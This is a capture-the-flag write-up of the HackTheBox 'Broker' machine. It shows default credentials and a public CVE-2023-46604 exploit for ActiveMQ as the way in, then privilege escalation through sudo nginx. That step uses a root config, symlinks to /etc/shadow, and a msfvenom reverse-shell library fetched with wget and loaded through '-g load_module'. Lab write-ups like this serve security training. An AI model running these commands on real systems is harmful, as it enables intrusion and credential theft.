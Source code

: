 # HTB: Broker

Hi, the reason why I'm making this writeup is because I think I did the privesc of this box in a unique and easier way than others. Instead of writing an SSH key to `/root/.ssh/id_rsa`, or dealing with logs and poisoning, you can just use nginx's `-g` flag to run a shared library.

This writeup won't walk you straight to the solution. I will be mentioning some of the rabbit holes I went down. If you don't want that, then just read the **bold** lines.

### Foothold

- **We're welcomed with an http basic authentication request. Trying `admin:admin` suprisingly works. (I really wasn't expecting that.)**
  
- **It's running ActiveMQ**
  
- **It leaks the version on `http://10.10.11.243/admin/`**
  
- Looking at my outdated `searchsploit`, I couldn't find anything. And considering this is HackTheBox, this shouldn't be the vector right?
  
- I try enumerating port 1883
  

```bash
mosquitto_sub -h 10.10.11.243 -t '#' -v
```

- There is no traffic. So I try making some by browsing the webpage and sending messages from `http://10.10.11.243/admin/send.jsp`. I can only read what I sent. It doesn't help.
  
- So, I kept enumerating other ports, looking at the Nmap output. But they got me nowhere.
  
- **I finally decided to actually look for CVE's. I search on Google for `activemq cve`**
  
- **I was greated with `CVE-2023-46604`, searching for `CVE-2023-46604 github` we find this Python script `https://github.com/evkl1d/CVE-2023-46604`. Written a week before the box's release.**
  
- **We run the exploit and get into the box.**
  

### Privesc

- **My immediate thought was to run `sudo -l` (probably because it's the easiest one. And if there is something you can run using `sudo`, it has the highest chance of involving in the privesc)**
  
- **We see `/usr/sbin/nginx`. Hmm, GTFOBins? Nothing. Nginx runs commands on startup? Nope. File read-write? Didn't think so. What can we do now?**
  
- I run `nginx -h`, find nothing at the first glance, I search the web for something I could use, but no. I look at suid binaries, run `linpeas` but there is nothing I can use.

![nginx help](https://github.com/Dogru-Isim/CTFSolutions/blob/main/HackTheBox/Linux/Easy/Broker/images/nginx_help.png?raw=true)
  
- It's now time to look deeper into the `nginx` vector.
  
- **I see that there is a `-c` option. I can use this to use a custom configuration file.**
  
- **I can also use `-s stop` to stop and restart nginx so we don't disturb others with our endless web-servers**
  
- **Lets create a new configuration file. We'll also need the "default" file from `/etc/nginx/sites-available/default`**
  
- **Now, lets modify them to run our web server as `root` on 4443. And our path will be /home/activemq/.work. I also want to remove things that we surely won't need. (comments, includes from /etc/nginx/*)**
  

```new-config.config
user root;
worker_processes auto;
pid /run/nginx.pid;
#include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {

        sendfile on;
        tcp_nopush on;
        types_hash_max_size 2048;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        ssl_prefer_server_ciphers on;

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;

        gzip on;

        #include /etc/nginx/conf.d/*.conf;
        #include /etc/nginx/sites-enabled/*;
        include /home/activemq/.work/new-default;
}
```

```new-default
server {
    listen 4443;
    server_name    nothing.broker.htb
    root /home/activemq/.work/
    location / {}
}
```

- **Now lets run it to see if it works,**
  

```bash
activemq@broker:~/.work$ sudo nginx -c new-config.config 

nginx: [emerg] open() "/usr/share/nginx/new-config.config" failed (2: No such file or directory)
```

- Hmm, it's looking for it in `/usr/share/nginx/` lets specify the current directory.
  

```bash
activemq@broker:~/.work$ sudo nginx -c ./new-config.config 
nginx: [emerg] open() "/usr/share/nginx/./new-config.config" failed (2: No such file or directory)
```

- **Meh, maybe we do some directory traversal,**
  

```bash
activemq@broker:~/.work$ sudo nginx -c ../../../../home/activemq/.work/new-config.config 
```

- **Haha, it worked!**
  
- **I know you can't run php natively on nginx. But I still try writing a webshell to our webroot. Appearently, when you do that you get to download the file. So I set-up a symlink to `/etc/shadow` and `/root/root.txt`. And browse to them.**
  

```bash
activemq@broker:~/.work$ ln -s /root/root.txt flag
activemq@broker:~/.work$ sudo nginx -c ../../../../home/activemq/.work/new-config.config 
```

- **We can get the flag this way. But this is not optimal is it?**
  
- **After reading some Nginx docs: [Command-line parameters](http://nginx.org/en/docs/switches.html), I realize that we can run `-g` with a limited amount of options such as `pid $path` and etc. They are called `global configuration directives`. global- What?**
  
- **I don't know a lot about the others but one of them is actually useful to us: `load_module`**
  
- **So, my goal now is to download an `msfvenom` generated shared library ".so", and run it using `-g load_module priv.so`. DAMN I love this shit.**
  

```bash
Local:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=$local_ip LPORT=8443 -f elf-so > priv.so
$ python3 -m http.server
```

```bash
Remote:
$ wget http://10.10.14.176:8000/priv.so
$ sudo nginx -c ../../../../home/activemq/.work/new-config.config -g 'load_module priv.so'
```

- I hope you didn't forget setting up `multi/handler`
  
- And there is our shell

![Root Shell](https://github.com/Dogru-Isim/CTFSolutions/blob/main/HackTheBox/Linux/Easy/Broker/images/root_shell.png?raw=true)
